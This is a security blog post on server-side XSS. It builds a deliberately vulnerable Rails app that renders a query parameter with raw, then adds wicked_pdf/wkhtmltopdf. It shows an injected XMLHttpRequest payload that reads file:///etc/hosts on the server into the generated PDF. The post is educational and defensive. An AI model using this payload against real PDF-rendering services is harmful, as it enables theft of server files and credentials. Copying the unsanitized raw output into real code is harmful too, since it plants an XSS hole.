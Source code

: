 ```yaml
---
layout: post
title:  "Server side XSS"
date:   2020-03-07 21:08:32 -0300
categories: security
---
```

XSS stands for `Cross Site Scripting`, it's basically when input is not properly sanitized somewhere and a malicious actor can inject unintended javascript somewhere. That javascript will be executed by some unsuspecting user's browser and then bad stuff can happen.

There are two main types of XSS exploits, `reflected` and `persisted`. `Persisted` ones are when the malicious script is saved into a database somewhere and the malicious payload is injected every time the page is open. A practical example would be a discussion forum where the post text is not sanitized, if someone injects javascript by using the text from a post everytime someone opened that thread the payload would execute in the browser of whoever opened it.

The `reflected` kind occurs when the application received data from the HTTP request and immediately sends that data in the response in an unsafe way. This type of XSS is usually exploited by creating a phishing link that will send the user to the actual legit site but with the malicious payload encoded in the link.

People tend to underestimate the impact of reflected XSS exploits. But what if I told you that in some instances it's possible to expose sensitive data from the server by using a reflected XSS exploit? Let's create a vulnerable application using Ruby on Rails and let's attack it!

```
rails new xss-serverside
```

This will create a new rails app. Now we need a controller that will accept a query string parameter and output it into the response HTML without sanitizing it.

Let's create a new controller:

```
rails generate controller name
```

Now let's edit the newly created NameController to accept a parameter from the query string:

```ruby
class NameController < ApplicationController
  def show
    @name = params[:name]
  end
end
```

Let's create a view that will output that parameter unsafely allowing for an reflective XSS, we can do this by creating the `views/name/show.erb` file and output the variable using the raw method which will output it without any sanitization:

```
<h1>Hello!</h1>
<p><%= raw @name %></p>
```

We also need to create a route that will call the show method for the NameController, we do this by adding the following line to our `routes.rb` file:

```
get 'name', action: :show, controller: 'name'
```

If we run the application now and access the newly created route we can pass anything in the `name` query string parameter and see it reflected in the html:

![XSS1](/assets/server-side-xss/print1.png)

If we pass javascript such as `<script>alert('Hello XSS!');</script>` (If you're actually following this guide from home don't forget that you need to url encode the script before passing it in the name parameter) we'll get a nice alert showing us that we can inject javascript in the page and get it executed:

![XSS2](/assets/server-side-xss/print2.png)

Some web apps have features where they will generate PDFs or pictures out of some of their pages. This is usually done for reports or things like that. Usually that works by inputting the generated html to some sort of headless browser which will then output the PDF that is downloaded by the final user. As the headless browser in this scenario usually runs in the server the javascript will run on the server, and that could have catastrophic results.

Let's add that to our vulnerable app so I can demonstrate, first let's add the following gem to our Gemfile:

```
gem 'wicked_pdf'
```

This gem works by using `wkhtmltopdf` to generate the pdf. This tool basically runs a headless webkit and outputs the pdf based on the input html.

We need to run the following generator to create the gem initializer:

```
rails generate wicked_pdf
```

Now we need to change our controller to use the gem:

```ruby
class NameController < ApplicationController
  def show
    @name = params[:name]

    respond_to do |format|
      format.html
      format.pdf do
        render pdf: "name"
      end
    end
  end
end
```

Now if we append .pdf to our url before the query string the result will be a PDF generated from the view's html:

![XSS3](/assets/server-side-xss/print3.png)

This is where the fun begins, now if we use our XSS to inject javascript to the html and request it to be converted to PDF that javascript will be executed server-side, let's try fetching a file from the filesystem by injecting the following javascript:

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/hosts");
x.send();
</script>
```

If we open it by requesting the PDF output we'll get a PDF with the contents of the file:

![XSS4](/assets/server-side-xss/print4.png)

This can be used by an attacker to get logs, code, maybe credentials and other juicy stuff. This could probably be used for `server side request forgeries` as well.

That's why you should never underestimate any sort of XSS vulnerabilities in your system.  If your application does any sort of rendering server side by using a headless browser you're way more vulnerable than you think.
